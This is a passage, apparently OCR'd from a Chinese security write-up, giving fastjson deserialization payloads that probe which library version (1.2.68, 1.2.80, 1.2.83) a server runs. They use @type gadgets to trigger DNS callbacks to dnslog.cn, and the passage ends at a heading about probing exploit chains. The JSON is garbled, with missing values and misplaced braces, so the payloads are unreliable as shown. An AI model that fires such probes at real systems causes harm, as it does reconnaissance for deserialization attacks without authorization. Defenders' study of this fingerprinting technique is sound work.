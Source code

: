 #### 1.2.68

```json  
[
  {
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]  
```

#### 1.2.80

在68和80都只会接收到第一个dnslog请求，83会收到第二个请求

```json  
[
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "x": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "1.dnslog.cn"
  }
}
},
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "message": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "2.dnslog.cn"
  }
}
}
]  
```

## 0x04 利用链探测
